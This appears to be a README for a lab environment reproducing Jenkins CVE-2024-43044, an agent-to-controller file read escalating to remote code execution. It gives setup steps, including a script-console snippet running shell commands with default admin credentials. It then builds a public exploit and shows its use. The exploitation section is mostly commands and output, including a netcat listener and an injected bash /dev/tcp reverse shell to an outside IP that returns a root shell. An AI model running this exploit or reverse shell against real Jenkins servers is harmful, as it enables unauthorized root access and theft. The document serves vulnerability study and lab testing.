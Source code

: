 # CVE-2024-43044
Jenkins 2.470 and earlier, LTS 2.452.3 and earlier allows agent processes to read arbitrary files from the Jenkins controller file system by using the `ClassLoaderProxy#fetchJar` method in the Remoting library.

## Metrics
CVSSv2: N\A  
CVSSv3: 8.8 HIGH  

## Vulnerability Environment
Build and run:

```shell
docker compose build
docker compose up -d
```

Setup ssh cerificates and agent via Jenkins console:
1. Go to http://your-ip:8080/script
2. Insert config:
```groovy
def jenkinsHome = System.getenv('JENKINS_HOME')
def command1 = "java -jar ${jenkinsHome}/jar/jenkins-cli.jar -s http://localhost:8080/ groovy = < ${jenkinsHome}/groovy/add-credentials.groovy"
println new ProcessBuilder('sh','-c',command1).redirectErrorStream(true).start().text

def command2 = "java -jar ${jenkinsHome}/jar/jenkins-cli.jar -s http://localhost:8080/ -auth admin:admin create-node vulnforge-agent < ${jenkinsHome}/xml/add-agent.xml"
println new ProcessBuilder('sh','-c',command2).redirectErrorStream(true).start().text
```
3. Connect to agent and build exploit
```shell
ssh jenkins@your-ip -p 2222 -i ssh/jenkins_key
```
```shell
git clone https://github.com/convisolabs/CVE-2024-43044-jenkins
cd CVE-2024-43044-jenkins ; mvn package
```
Dry run:
```shell
java -jar target/CVE-2024-43044-1.0-SNAPSHOT.jar mode_attach http://jenkins:8080 id
```
```shell
jenkins@7e496555d0a5:~/CVE-2024-43044-jenkins$ java -jar target/CVE-2024-43044-1.0-SNAPSHOT.jar mode_attach http://jenkins:8080 "id"
MODE ATTACH
[*] Starting the exploit
    JAR file:              /home/jenkins/CVE-2024-43044-jenkins/target/CVE-2024-43044-1.0-SNAPSHOT.jar
    pid of remoting.jar:   587
    pid of SSH connection: 546
    cmd:                   id
    jenkinsUrl:            http://jenkins:8080
Agent attached successfully.
```

## Detection and exploitation example
### Exploitation
On attacker machine:
```shell
nc -lvnp 4444
```

On agent container:
```shell
java -jar target/CVE-2024-43044-1.0-SNAPSHOT.jar mode_attach http://jenkins:8080 'bash -i >& /dev/tcp/192.168.93.63/4444 0>&1'
```

Got reverse shell:
```shell
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 172.19.0.2 53432
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
root@6cc809610588:/# whoami
whoami
root
root@6cc809610588:/# 
```

## Exploits and PoCs
https://github.com/convisolabs/CVE-2024-43044-jenkins

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2024-4304](https://nvd.nist.gov/vuln/detail/cve-2024-43044)
[Conviso Blog: Analysis of CVE-2024-43044 — From file read to RCE in Jenkins through agents](https://blog.convisoappsec.com/en/analysis-of-cve-2024-43044/)  
[Habr: Анализ CVE-2024-43044 — от чтения файлов до удаленного выполнения кода в Jenkins через агентов](https://habr.com/ru/articles/850248/)  

## Notes and TODOs
- [ ] Add setup scripts to auto start with Jenkins init   
- [ ] Add (optional) agent with url\node\secret config  